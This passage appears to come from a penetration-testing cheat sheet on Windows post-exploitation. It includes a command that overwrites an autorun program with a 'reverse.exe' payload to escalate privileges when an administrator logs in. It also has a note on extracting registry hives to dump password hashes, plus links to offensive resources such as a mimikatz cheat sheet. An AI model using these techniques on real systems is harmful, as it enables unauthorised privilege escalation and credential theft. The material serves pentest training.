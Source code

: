 ```bash
copy C:\PrivEsc\reverse.exe "C:\Program Files\Autorun Program\program.exe" /Y
# Now we need an admin to log in in order to achieve privesc.
```
{% endcode %}

## HTTP server (.exe) for Windows

[https://github.com/faustinoaq/sswws](https://github.com/faustinoaq/sswws)

## 7-Zip

If we have access to an image or the whole filesystem, extract registry hives to dump hashes or access other high-privileged stuff.

## Resources -

* [https://blog.harmj0y.net/](https://blog.harmj0y.net/)
* [https://adsecurity.org/?page\_id=1821](https://adsecurity.org/?page_id=1821)
* [https://metasploit.help.rapid7.com/docs/about-post-exploitation](https://metasploit.help.rapid7.com/docs/about-post-exploitation)
* [http://www.pentest-standard.org/index.php/Post\_Exploitation](http://www.pentest-standard.org/index.php/Post_Exploitation)
* [https://offsec.red/mimikatz-cheat-sheet/](https://offsec.red/mimikatz-cheat-sheet/)
* [https://gist.github.com/HarmJ0y/184f9822b195c52dd50c379ed3117993](https://gist.github.com/HarmJ0y/184f9822b195c52dd50c379ed3117993)
